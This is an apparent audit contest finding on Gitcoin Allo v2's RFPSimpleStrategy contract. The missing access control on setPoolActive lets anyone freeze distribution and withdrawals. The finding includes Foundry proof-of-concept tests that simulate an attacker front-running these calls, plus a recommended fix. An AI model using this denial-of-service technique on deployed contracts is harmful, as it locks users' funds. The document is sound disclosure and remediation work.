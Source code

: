 Damaged Cornflower Turkey

high

# Lack of Access Control leaves RFPSimpleStrategy.sol vulnerable to DoS attacks, freezing the funds.
`setActivePool` has no access controls. This means everyone can change the pool to active/inactive. A malicious user can front run every`distribute` and `withdraw` function by setting the pool to `active`. This means the funds will not be able to be distributed nor withdrawn, leaving the funds stuck in the strategy contract.
## Vulnerability Detail

According to the [documentation](https://github.com/sherlock-audit/2023-09-Gitcoin/blob/main/allo-v2/contracts/strategies/rfp-simple/RFPSimpleStrategy.sol#L217) in `RFPSimpleStrategy.sol`:
```javascript
source: contracts/strategies/rfp-simple/RFPSimpleStrategy.sol

/// @dev 'msg.sender' must be a pool manager to close the pool. Emits a 'PoolActive()' event.
```
However, anyone can call `setPoolActive` in `RFPSimpleStrategy.sol`:
```javascript
source: contracts/strategies/rfp-simple/RFPSimpleStrategy.sol

// findings marked with <=
function setPoolActive(bool _flag) external <= // no access control{
        _setPoolActive(_flag);
        emit PoolActive(_flag);
    }
```
There is no access controls stopping anyone from setting the pool to active or inactive. 
This opens up a lot of attack vectors for malicious users, for example, the `_distribute` function can only be called when the pool is inactive:
```javascript
source: contracts/strategies/rfp-simple/RFPSimpleStrategy.sol

// findings marked with <=
    function _distribute(address[] memory, bytes memory, address _sender)
        internal
        virtual
        override
		onlyInactivePool    <= //requires the pool to be inactive
        onlyPoolManager(_sender)
    {
```
A malicious user can decide call `setPoolActive` with `true` every time a pool manager wants to distribute the funds.

The same logic applies to the `withdraw` function:
```javascript
source: contracts/strategies/rfp-simple/RFPSimpleStrategy.sol

// findings marked with <=
    function withdraw(uint256 _amount) external onlyPoolManager(msg.sender) 
    onlyInactivePool <=// requires the pool to be inactive
    {
        poolAmount -= _amount;
        _transferAmount(allo.getPool(poolId).token, msg.sender, _amount);
    }
```

This POC contains two tests, showcasing how a malicious user can prevent anyone from calling the `withdraw` function or the `distribute` function:
```javascript
source: test/foundry/strategies/RFPSimpleStrategy.t.sol

// place in test/foundry/strategies/RFPSimpleStrategy.t.sol
// run using:
// forge test --match-contract RFPSimpleStrategy --match-test test_dosDistribute -vvvv
    function test_dosDistribute() public {
        address hacker = makeAddr("1337pwner");

        // create recipientId
        address recipientId = __register_setMilestones_allocate_submitUpcomingMilestone();
        // give the admin 1e19 native token
        vm.deal(pool_admin(), 1e19);

        vm.prank(pool_admin());
        // fund the pool with 1e19 native token
        allo().fundPool{value: 1e19}(poolId, 1e19);
    
        // the hacker frontruns the distribute call by setting the pool to active
        vm.prank(hacker);
        strategy.setPoolActive(true);

        // distribute will fail with the error message: POOL_ACTIVE()
        vm.expectRevert(POOL_ACTIVE.selector);
        vm.prank(address(allo()));
        strategy.distribute(new address[](0), "", pool_admin());
    }


// run using:
// forge test --match-contract RFPSimpleStrategy --match-test test_dosWithdraw -vvvv
    function test_dosWithdraw() public {
        address hacker = makeAddr("1337pwner");

        // create recipientId
        address recipientId = __register_setMilestones_allocate_submitUpcomingMilestone();
        // give the admin 1e19 native token
        vm.deal(pool_admin(), 1e19);

        vm.prank(pool_admin());
        // fund the pool with 1e19 native token
        allo().fundPool{value: 1e19}(poolId, 1e19);
    
        // the hacker frontruns the distribute call by setting the pool to active
        vm.prank(hacker);
        strategy.setPoolActive(true);

        // withdraw will fail with the error message: POOL_ACTIVE()
        vm.expectRevert(POOL_ACTIVE.selector);
        vm.prank(pool_admin());
        strategy.withdraw(1e19);
    }
```

These are all the functions in `RFPSimpleStrategy.sol` that have either `onlyActivePool` or `onlyInactivePool`:
```javascript
//onlyActivePool
    function _registerRecipient(bytes memory _data, address _sender)
    function _allocate(bytes memory _data, address _sender)

//onlyInactivePool
    function _distribute(address[] memory, bytes memory, address _sender)
    function withdraw(uint256 _amount) external onlyPoolManager(msg.sender) onlyInactivePool {

```
A malicious user can deny anyone from calling these by setting the value that makes `onlyActive `or `onlyInactive` fail.
## Impact
Funds will be stuck in the contract, withdraw will not be possible. Cost for the malicious user is low. 
Likelihood is very high. Everyone can call `setPoolActive` and change the flag to whatever he wants.
## Code Snippet
https://github.com/sherlock-audit/2023-09-Gitcoin/blob/main/allo-v2/contracts/strategies/rfp-simple/RFPSimpleStrategy.sol#L219-L222
## Tool used
Manual Review
## Recommendation
Add `onlyPoolManager(msg.sender)` as a modifier to the `setPoolActive` function. This is what the function should look like:
```javascript
function setPoolActive(bool _flag) external onlyPoolManager(msg.sender) {
        _setPoolActive(_flag);
        emit PoolActive(_flag);
    }
```